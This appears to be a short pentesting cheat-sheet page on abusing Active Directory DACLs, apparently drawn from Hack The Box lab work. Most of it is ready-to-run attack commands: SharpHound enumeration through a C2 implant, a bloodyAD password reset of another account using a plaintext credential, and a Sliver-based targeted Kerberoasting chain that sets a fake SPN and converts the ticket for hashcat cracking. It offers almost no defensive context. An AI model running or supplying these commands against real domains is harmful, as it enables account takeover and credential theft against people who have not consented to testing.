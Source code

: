 ```yaml
---
description: Exploit a DACL or Discretionary Access Control List.
---
```


# DACL

A DACL (Discretionary Access Control List) is a list of ACEs which are Access Control Entries. This specifies which users or groups are allowed or denied access to computers, smb shares other user account.&#x20;

#### Use sharphound

```sh
sharp-hound-4 -- -c All --zipfilename academy 
```

Then run SharpHound

```sh
execute-assembly SharpHound.exe -c all
```

With rights change password

```sh
proxychains4 -q bloodyAD --host 172.16.1.15 -d child.htb.local  -u svc_sql -p 'jkhnrjk123!' set password david 'Password123!
```

### <mark style="color:yellow;">GenericWrite via Sliver</mark>

Setup a fake SPN on target, the use c2tc-kerberoast from Sliver to attack

```sh
# Set SPN
proxychains bloodyAD --host 172.16.1.15 -d child.htb.local -u david -p 'Password123!' set object websec servicePrincipalName -v fake/web01.child.htb.local

# Kerberoast
c2tc-kerberoast roast websec

# Convert ticket to a hash
python3 TicketToHashcat.py websec-ticket.enc
```

